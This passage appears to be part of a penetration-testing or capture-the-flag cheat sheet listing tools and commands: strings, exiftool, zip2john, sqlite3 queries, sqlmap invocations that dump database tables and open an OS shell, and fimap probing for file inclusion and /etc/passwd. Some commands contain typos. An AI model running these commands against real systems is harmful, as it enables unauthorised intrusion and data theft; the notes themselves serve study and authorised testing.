 - strings - check strings in files

    ```bash
    stringe FILE.jpg
    ```

- [exiftool](https://github.com/exiftool/exiftool) - pictures metadata
- zip2john - prepare an encrpyted zip file for john hacking

    ```bash
    zip2john ZIPFILE > zip.hashs
    ```

- SQLite DB

    ```powershell
    #if we found a flat-file db 
    file EXAMPLE.db
    #if sqlite3
    sqlite3 <database-name>
    .tables
    PRAGMA table_info(customers);
    SELECT * FROM customers;
    ```

- sqlmap - check website for sql injection (more info down)

    [Sqlmap trick](https://hackertarget.com/sqlmap-post-request-injection/) - if we have a login page, we can try admin:admin, catch that in burpsuite,  save the full request to a file, run:

    ```bash
    sqlmap -r FILENAME --level=5 --risk=3 --batch
    sqlmap -r FILENAME -dbs --level=5 --risk=3 --batch

    sqlmap -r FILENAME --dbs #enumarate DB's
    sqlmap -r FILENAME -D DB_Name --tables #enumarate tables
    sqlmap -r FILENAME -D DB_Name -T TABLE_Name --dump #DUMP table

    #Find SQL in webpage url automatically
    sqlmap -u https://IP/ –crawl=1

    #with authentication
    sqlmap -u “http://target_server” -s-data=param1=value1&param2=value2 -p param1--auth-type=basic --auth-cred=username:password

    #Get A Reverse Shell (MySQL)
    sqlmap -r post_request.txt --dbms "mysql" --os-shell
    ```

- [fimap](https://github.com/kurobeats/fimap) - Check for LFI, find, prepare, audit, exploit and even google automatically for local and remote file inclusion

    ```bash
    ~/tools/fimap/src/fimap.py –H –u http://target-site.com/ -w output.txt
    ```

    If we see in burpsuite php$url= we need to test for LFI (try /etc/passwrd)
